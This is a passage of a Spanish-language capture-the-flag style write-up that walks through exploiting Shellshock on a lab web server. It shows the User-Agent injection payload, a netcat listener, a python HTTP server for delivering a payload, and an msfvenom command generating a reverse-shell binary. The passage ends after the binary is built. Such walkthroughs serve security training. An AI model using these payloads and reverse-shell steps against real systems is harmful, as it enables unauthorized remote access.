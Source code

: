 ahora modifico el user-agent para probar si es vulnerable a shellshock con el siguiente payload: () { :; }; [comando]

![Screenshot From 2024-11-02 14-34-29](https://github.com/user-attachments/assets/6da4f7dc-0fb2-4bca-b488-6eb1b8289f29)

aqui el [comando] que aplico es para escribir sobre el index.php del panel de login a ver si resulta ser vulnerable y en efecto lo es, ya que si voy al navegador 
y recargo la web, debajo del panel de login puedo observar que en efecto se ejecuto el comando que envie por el user-agent

![Screenshot From 2024-11-02 14-39-07](https://github.com/user-attachments/assets/56368b0f-5836-4b82-b40f-6af94d20a147)


sabiendo esto, puedo ahora enviarme una revershell asi que me coloco en escucha con netcat

```
nc -lnvp 4444
Listening on 0.0.0.0 4444
```
y envio la revershell por el user-agent

![Screenshot From 2024-11-02 14-42-56](https://github.com/user-attachments/assets/cb6e0989-5223-41a1-bab2-a80635e0663d)


y obtengo la conexion pero por alguna razon despues de un par de segundos me saca del sistema

![Screenshot From 2024-11-02 14-44-27](https://github.com/user-attachments/assets/c5732ab2-3568-4b89-8130-0f6a03da0da9)

despues de un rato intentando mantener la conexion se me ocurrio probar hacer uso de un binario de msfvenom para establecer la conexion, pero primero pruebo si el server
tiene instalado ya sea wget o curl para que descargue el binario y para esto primero me levanto un server python en mi maquina

```
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
luego envio una solicitud con curl o wget, pero veo que solo con curl obtengo resultados

![Screenshot From 2024-11-02 14-55-41](https://github.com/user-attachments/assets/bde97546-2fdb-468e-b18d-348618e85b66)

aqui puedo ver que funciona curl en el servidor

![Screenshot From 2024-11-02 14-57-11](https://github.com/user-attachments/assets/6a46d942-f5a1-4b11-8350-46a719d0ec2d)


ya que se cual esta instalado, me creo el binario de msfvenom

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f elf -o reverse.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: reverse.elf
```
